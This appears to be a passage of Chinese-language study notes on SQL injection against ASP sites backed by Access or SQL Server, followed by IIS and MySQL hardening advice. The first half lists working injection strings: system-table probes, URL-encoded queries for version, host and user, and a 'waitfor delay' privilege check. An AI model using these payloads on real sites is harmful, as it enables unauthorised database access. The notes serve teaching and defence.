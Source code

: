 	* 信息采集：数据库名、数据库类型、数据库用户、数据库表名和字段名……
		* 系统变量
			```urlencoded
			http://someweb/somepage.asp?id=11' and (select count(*) from sysobjects)>0--
			http://someweb/somepage.asp?id=11' and (select count(*) from msysobjects)>0--
			```

            !!! note "意义"
        		Access和SQL Server都有自己的系统表，比如存放数据库所有对象的表，Access是在系统表[msysobjects]中，但在Web环境下读此表会提示“没有权限”。SQLServer是在表[sysobjects]中，Web环境下可以正常读取。

                - SQL Server：第一个页面正常，第二个页面出错。
            	- Access：第一个页面与原页面不同，第二个页面也完全不同。（一般设置为不允许读系统表）

		* 其他语句：（`%20` → 空格，`%3E` → 大于号`>`）
			```text
			url + '%20and%20@@version%3E1--    数据库软件版本
			url + '%20and%20db_name()%3E0--    当前数据库名
			url + '%20and%20@@servername%3E0-- 服务器名
			url + '%20and%20host_name()%3E0--  主机名
			url + '%20and%20system_user%3E0--  系统用户
			url + '%20and%20user%3E0--         当前用户
			......
			```
		* 软件工具采集：Pangolin

* 权限判断
	* SQLServer的“root”：sa
	* 获取权限：`user`、`current_user`、`session_user`、`system_user`、`' if user ='dbo' waitfor delay '0:0:5 '--`
		- 利用IIS错误回显信息

* 攻击系统
	* 利用web远程管理，上传木马等
	* 注入攻击，绕过验证
	* 猜测表中各种内容
	* 远程执行命令

#### SQL攻击防范
* 服务器安全

    === "IIS安全配置"
        * 自行设置返回语句显示内容，所有错误只返回一种信息
    	* 不给静态网站设置脚本可执行权限，动态网站也只是赋予其纯脚本的权限
    	* 取消匿名登陆
    	* 禁止不常用的文件句柄映射，禁止作为例程的脚本及其所在目录的映射
    	* 删除IIS危险组件（比如Internet服务管理器）

    === "MySQL安全配置"
    	* 最小权利法则（分用户分配权限）
    	* 用户帐号安全法则 （禁用默认的root 管理员账号，新建一个复杂的用户名和密码管理数据库）
    	* 内容加密
    	* 存储过程控制（用户应该无权通过SQL语句来实现对系统命令的调用）
    	* 系统补丁（及时更新补丁）


[^1]: https://info.support.huawei.com/info-finder/encyclopedia/zh/STP.html